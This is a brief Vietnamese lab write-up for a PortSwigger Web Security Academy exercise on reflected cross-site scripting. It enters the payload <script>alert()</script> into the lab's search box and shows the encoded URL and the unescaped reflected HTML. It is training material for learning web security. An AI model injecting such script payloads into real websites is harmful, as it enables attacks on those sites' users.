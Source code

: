 # [Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

Không encode các kí tự đặc biệt, dễ dàng xss

Nhập `<script>alert()</script>` vào ô tìm kiếm:
```
https://0a6900fe03398af8c05941b1001d0094.web-security-academy.net/?search=%3Cscript%3Ealert%28%29%3C%2Fscript%3E
```

Kết quả:
```html
<h1>0 search results for '<script>alert()</script>'</h1>
```